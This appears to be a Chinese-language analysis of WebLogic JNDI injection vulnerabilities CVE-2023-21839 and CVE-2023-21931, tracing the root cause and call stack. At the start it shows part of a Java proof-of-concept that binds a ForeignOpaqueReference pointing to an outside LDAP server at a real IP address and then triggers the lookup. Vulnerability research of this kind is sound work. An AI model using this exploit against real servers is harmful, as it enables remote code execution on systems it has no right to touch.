 ```
        String ldap = "ldap://47.93.248.221:1389/zc57ls";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

![image-20230629112027345](images/16.png)

![image-20230629112107551](images/17.png)



# CVE-2023-21931

## 漏洞成因

和CVE-2023-21839一样，都是因为可以远程绑定对象，然后在之后的过程中找到可用的lookup对象

即是通过`LinkRef#getLinkName`方法来获取ldap查询串

## 漏洞分析

在上一个漏洞中，我们在WLNamingManager的getObjectInstance方法中看到如果boundObject实现了OpaqueReference接口会滴哦啊用getReferent获取对象，如果实现的是LinkRef接口就会调用getLinkName方法获取linkName

![image-20230629125027935](images/18.png)

随后调用lookup查询

我们从调用栈来分析一下

![image-20230629125204013](images/19.png)

通过`weblogic.rmi.internal.BasicServerRef#handleRequest`对数据进行接受处理

![image-20230629125400442](images/20.png)

调用SecurityManager.runAs方法，里面实例化了一个PrivilegedExceptionAction，随后在doAs方法中调用这个action的run方法

invoker是ClusterableServerRef类

![image-20230629130040233](images/21.png)
